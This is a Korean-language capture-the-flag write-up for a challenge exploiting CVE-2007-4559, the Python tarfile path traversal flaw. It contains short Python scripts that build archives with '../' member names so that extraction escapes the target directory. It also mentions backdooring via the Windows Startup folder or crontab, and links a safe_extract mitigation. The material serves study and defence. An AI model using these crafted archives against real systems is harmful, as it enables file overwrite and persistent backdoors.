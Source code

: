 # python_tar

`CVE-2007-4559` 취약점을 활용하는 문제이다.

```python
import tarfile
def change_name(tarinfo):
    tarinfo.name = "../b/" + tarinfo.name
    return tarinfo

with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("test.txt", filter=change_name)
```

위와 같이 tar 내부에 존재하는 이름을 수정한 tar 파일을 만들고

```python
import tarfile

with tarfile.open("test.tar", "r") as tar:
    tar.extractall()
```

해당 파일을 extract하면 그 경로로 압축 해제된다.

만약 최고 권한으로 실행되어 있다면 윈도우는 `C:\Users\사용자 계정\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 경로에 압축을 풀어서 백도어를 심을 수 있고, 리눅스에서는 `crontab` 파일을 덮어서 백도어로 활용할 수 있겠다.

```
hyuunnn@hyuunnn:/mnt/c/Users/hyuunnnn/Desktop/cve-2007-4559/a$ tar -xvf test.tar
tar: Removing leading `../' from member names
tar: ../b/test.txt: Member name contains '..'
tar: Exiting with failure status due to previous errors
```

tar 명령어의 문제가 아닌 `tarfile` 라이브러리의 문제임을 확인할 수 있다.

https://github.com/microsoft/GRTr/pull/7/files - `safe_extract` 함수를 보면 `tar.getmembers()`를 사용하여 루프 돌면서 경로가 맞는지 확인한다.

## 문제 풀이

1. 문제 파일로 주어진 `run.py` 코드를 분석
2. `flag.txt` 파일을 만들어서 코드에서 요구하는 문자(`tar_tar_Tar_TAr_TaR_Tar`)로 저장
3. `make_tar.py`를 실행하여 tar 파일 생성

```python
## make_tar.py
import tarfile

def change_name(tarinfo):
    tarinfo.name = "../../../../../../tmp/" + tarinfo.name
    return tarinfo

with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("flag.txt", filter=change_name)
```

4. 생성된 tar 파일을 웹 서버에 업로드하면 `FLAG`가 출력된다.

## 관련 자료

https://www.bleepingcomputer.com/news/security/unpatched-15-year-old-python-bug-allows-code-execution-in-350k-projects/

https://discuss.python.org/t/policies-for-tarfile-extractall-a-k-a-fixing-cve-2007-4559/23149

https://github.com/python/cpython/issues/45385

https://www.trellix.com/en-us/about/newsroom/stories/research/the-bug-report-september-2022-edition.html#CVE-2007-4559

https://www.trellix.com/en-us/about/newsroom/stories/research/limiting-the-software-supply-chain-attack-surface.html

https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html

https://www.cwn.kr/news/articleView.html?idxno=12545

https://github.com/advanced-threat-research/Creosote

https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall

https://www.theregister.com/2022/09/22/python_vulnerability_tarfile/

https://github.com/microsoft/GRTr/pull/7/files https://github.com/tensorflow/privacy/pull/344/files
